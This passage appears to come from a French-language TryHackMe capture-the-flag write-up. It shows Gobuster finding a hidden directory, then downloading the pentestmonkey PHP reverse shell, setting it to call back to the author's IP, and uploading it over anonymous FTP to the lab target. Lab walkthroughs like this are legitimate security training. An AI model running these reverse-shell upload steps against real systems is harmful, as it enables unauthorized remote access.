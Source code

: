 ![page2](./Task1-02.png)

Avec Gobuster on trouve un répertoire caché.  
Quand on va au répertoire caché on retrouve les fichiers FTP.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-06 16:29:19 URL:https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ ftp spice.thm
Connected to Spice.thm.
220 (vsFTPd 3.0.3)
Name (spice.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (46.7726 MB/s)
```
